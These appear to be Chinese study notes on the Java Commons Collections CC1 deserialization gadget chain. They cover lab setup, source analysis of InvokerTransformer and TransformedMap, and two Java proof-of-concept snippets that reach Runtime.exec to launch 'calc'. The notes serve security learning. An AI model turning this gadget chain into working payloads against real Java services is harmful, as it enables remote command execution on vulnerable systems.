 - [ ] [CC链](https://github.com/Drun1baby/JavaSecurityLearning?tab=readme-ov-file#java-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%9F%BA%E7%A1%80)
- [ ] [用TransformedMap编写真正的POC](https://wx.zsxq.com/group/2212251881/topic/548841845514184)
- [ ] [LazyMap链子](https://t.zsxq.com/iYCQd)
## 反序列化攻击思路

>入口类这里，我们需要一个 `readObject` 方法，结尾这里需要一个能够命令执行的方法。我们中间通过链子引导过去。所以我们的攻击一定是从尾部出发去寻找头的，流程图如下![](media/AttackRoad.png)
## CC1
### 环境搭建
1. 8u65： [JDK8u65](https://www.oracle.com/cn/java/technologies/javase/javase8-archive-downloads.html) ![](media/Pasted%20image%2020250601154756.png)  
2. 项目结构 --> 模块修改![](media/Pasted%20image%2020250601154712.png)  
3. 添加cc 1链依赖包  , `maven clean + maven install`![](media/Pasted%20image%2020250601155644.png)
```pom.xml
<!-- https://mvnrepository.com/artifact/commons-collections/commons-collections -->  
<dependency>  
 <groupId>commons-collections</groupId>  
 <artifactId>commons-collections</artifactId>  
 <version>3.2.1</version>  
</dependency>
```
4. 修改 sun 包  :  [openJDK 8u65](http://hg.openjdk.java.net/jdk8u/jdk8u/jdk/rev/af660750b2f4)  
	1. 下载zip![](media/Pasted%20image%2020250601160523.png)  
	2. 解压jdk8中的src.zip , 将 `\jdk-af660750b2f4\src\share\classes\sun`放入 src中![](media/Pasted%20image%2020250601160650.png)![](media/Pasted%20image%2020250601161102.png)![](media/Pasted%20image%2020250601161243.png)      
### 漏洞分析
![](media/Pasted%20image%2020250601172550.png)

#### 寻找尾部Exec方法
- Transformer  `ctrl+alt+b`实现方法![](media/Pasted%20image%2020250601170743.png)  
- InvokeTransformer 反射类任意调用   ![](media/Pasted%20image%2020250601170716.png)
```Java
public class Test {  
    public static void main(String[] args) throws IOException, NoSuchMethodException, InvocationTargetException, IllegalAccessException {  
        Runtime.getRuntime().exec("calc");  
  
        //反射  
        Runtime r = Runtime.getRuntime();  
        //System.out.println(r);  
        Class c = r.getClass();  
        //System.out.println(c);  
        Method execMethod = c.getMethod("exec",String.class);  
        //System.out.println(execMethod);  
        execMethod.invoke(r,"calc");  
  
        // InvokeTransformer cc1链  
        // Transformer getInstance(String methodName, Class[] paramTypes, Object[] args)  
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}).transform(r);  
  
          
  
    }  
}
```
![](media/Pasted%20image%2020250601173111.png)    

## 寻找调用 `transform` 方法的不同名函数
1. 在transform方法 查找用法，找跟transform 不同名的函数![](media/Pasted%20image%2020250601174431.png)
2. TransformedMap的checkSetValue方法调用了transfomer方法![](media/Pasted%20image%2020250601175258.png)  看看`valueTransformer`是啥，最终在 `TransformedMap` 的构造函数中发现了 `valueTransformer`![](media/Pasted%20image%2020250601175507.png)  因为 `TransformedMap` 的构造方法作用域是 `protected`，我们还需要去找一找谁调用了 `TransformedMap` 的构造方法。
3. 在decorate中找到了`TransformedMap`![](media/Pasted%20image%2020250601175906.png)  
4. 写利用POc
```Java
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.TransformedMap;  
  
import java.lang.reflect.Method;  
import java.util.HashMap;  
import java.util.Map;  
  
public class decorate {  
    public static void main(String[] args) throws Exception{  
        Runtime runtime = Runtime.getRuntime();  
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec"  
                , new Class[]{String.class}, new Object[]{"calc"});  
          
        // invokerTransformer.transform(runtime);  
        HashMap<Object, Object> hashMap = new HashMap<>();  
        Map decorateMap = TransformedMap.decorate(hashMap, null, invokerTransformer);  
        Class<TransformedMap> transformedMapClass = TransformedMap.class;  
        Method checkSetValueMethod = transformedMapClass.getDeclaredMethod("checkSetValue", Object.class);  
        checkSetValueMethod.setAccessible(true);  
        checkSetValueMethod.invoke(decorateMap, runtime);  
    }  
}
```

## 参考
- https://drun1baby.top/2022/06/06/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8701-CC1%E9%93%BE/
- https://www.bilibili.com/video/BV1no4y1U7E1/?spm_id_from=333.1387.upload.video_card.click&vd_source=5f4f31ca939fbba01cb0ba2f7b60b9e3
